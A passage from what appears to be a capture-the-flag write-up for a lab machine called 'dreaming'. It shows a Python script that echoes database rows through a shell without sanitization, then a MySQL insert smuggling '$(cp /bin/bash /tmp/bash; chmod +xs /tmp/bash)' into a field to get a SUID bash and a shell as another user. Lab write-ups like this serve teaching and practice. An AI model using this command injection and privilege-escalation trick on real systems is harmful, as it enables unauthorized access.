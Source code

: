 ```
+---------+------------------------------------+
| dreamer | dream                              |
+---------+------------------------------------+
| Alice   | Flying in the sky                  |
| Bob     | Exploring ancient ruins            |
| Carol   | Becoming a successful entrepreneur |
| Dave    | Becoming a professional musician   |
+---------+------------------------------------+
4 rows in set (0.00 sec)

mysql>
```

- This confirms that the script in `/opt/getDreams.py` is the same as the one used in death's home directory.

- Technically whatever we input into the table will get executed by bas when printed, and there is no sanitization. This can be seen in the `/opt/getDreams.py` copy of the script.

```
else:
            # Loop through the results and echo the information using subprocess
            for dream_info in dreams_info:
                dreamer, dream = dream_info
                command = f"echo {dreamer} + {dream}"
                shell = subprocess.check_output(command, text=True, shell=True)
                print(shell)
```

```
mysql> INSERT INTO dreams (dreamer, dream) VALUES ('test', '$(cp /bin/bash /tmp/bash; chmod +xs /tmp/bash)');
Query OK, 1 row affected (0.02 sec)
```

- Then, I ran the script as death.

```
lucien@dreaming:~$ sudo -u death /usr/bin/python3 /home/death/getDreams.py
Alice + Flying in the sky

Bob + Exploring ancient ruins

Carol + Becoming a successful entrepreneur

Dave + Becoming a professional musician

test +
```

- But the copy of bash was in the `/tmp` directory.

```
lucien@dreaming:~$ /tmp/bash -p
bash-5.0$ id 

{TRIMMED } egid=1001(death) groups=1001(death) {TRIMMED}
```
